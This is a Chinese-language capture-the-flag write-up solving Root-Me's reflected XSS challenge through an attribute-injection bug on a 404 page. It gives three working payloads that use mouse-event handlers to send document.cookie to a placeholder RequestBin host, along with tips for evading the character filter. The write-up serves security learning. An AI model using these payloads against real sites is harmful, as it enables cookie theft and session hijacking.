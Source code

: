 ## [[Root-Me](https://www.root-me.org/)] [[Web-Client](https://www.root-me.org/en/Challenges/Web-Client/)] [[XSS - Reflected](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)] [[解题报告](http://exp-blog.com/2019/01/02/pid-2683/)]

------

题目已经提示是反射型 XSS 的题型，但题目已经提示了 **admin 不会点击所有可疑的 XSS 链接**， 亦即我们要想办法令我们的 XSS 在 **不被点击** 的前提下触发。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B13%5D%20%5B45P%5D%20XSS%20-%20Reflected/imgs/01.png)

看过了所有页面，只有在 Contact us 页面的留言区有输入点，但不是注入点，因为留言后页面提示这里会扔掉所有消息并不会查看。

查看页面源码，发现有一个隐藏页面 Security ， 但打开发现是个 404 页面。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B13%5D%20%5B45P%5D%20XSS%20-%20Reflected/imgs/02.png)

不过注意到，修改 URL 中的 `?p=${xxx}` ， 404 页面中会对应打印 `The page ${xxx} could not be found.` ，其中 `${xxx}` 被嵌入到 &lt;a&gt; 标签的 href 属性：`<a href="?p=${xxx}" >${xxx}</a>`，怀疑这里可能是一个 XSS 注入点。

不过测试发现，这个注入点对很多 html 符号做了过滤，`<>"+` 等符号都被过滤了，注入难度较高。唯独单引号 `'` 没有被过滤，因此可以用它来关闭前一个 href 属性，注入可以触发 XSS 的属性。

尝试构造 URL 的 payloads 参数：`?p=exp' onmousemove='alert(1)`，发现 &lt;a&gt; 标签被注入成为 `<a href="?p=exp" onmousemove="alert(1)">`，亦即成功注入了 `onmousemove` 属性，当鼠标经过这个链接时，就会触发 XSS 。

而之所以注入 `onmousemove` 属性而非 `onclick` 属性，是因为题目已经明确表示  **admin 不会点击所有可疑的 XSS 链接** ，因此注入的 XSS 行为是不能通过点击触发的，且必须是 js 脚本。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B13%5D%20%5B45P%5D%20XSS%20-%20Reflected/imgs/03.png)

据此可以构造真正的 payloads 了，下面几条都是我构造的有效 payloads ，任选一条均可。其中 `${HOST}` 是通过 [RequestBin](https://requestbin.fullcontact.com/) 生成的临时 HTTP 服务器：

```javascript
# 注意构造 payloads 的时候必须清楚哪些字符是被过滤的，尤其是 +，此处用 concat 代替
# 这 3 条 payloads 任一条均可用
exp' onmouseover='document.location=%22${HOST}?%22.concat(document.cookie)
exp' onmouseover='document.write(%22<img src=${HOST}?%22.concat(document.cookie).concat(%22 />%22))
exp' onmouseover='setTimeout(function()%7Bdocument.location=%22${HOST}?%22.concat(document.cookie);%7D,1)
```

点击 `REPORT TO THE ADMINISTRATOR` 按钮提交 payloads， 然后在 `${HOST}` 等待 robot 触发 XSS 即可（大概需要一分钟）。若触发成功则会收到一个 flag ，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B13%5D%20%5B45P%5D%20XSS%20-%20Reflected/imgs/04.png)
![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B13%5D%20%5B45P%5D%20XSS%20-%20Reflected/imgs/05.png)

> 本题要点：
<br/>　　○ flag 是在 cookie 里面的，因此必须窃取 `document.cookie`
<br/>　　○ 必须要清楚哪些字符被过滤了，尤其注意 `+` 也是在过滤列表中，即使编码成 `%2B` 也绕不过去，很多同学构造号 payloads 后，在本地可以触发，但是提交后 rotbot 却不触发，就是这个原因。
<br/>　　○ `onmousemove`、`onmouseover`、`onmouseenter`、`onmouseout` 等 &lt;a&gt; 的属性都是可以被 rotbot 触发的
<br/>　　○ robot 真的很仿真，而且似乎还担心触发不到事件，只要 payloads 是对的，就会连续触发 5 次

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
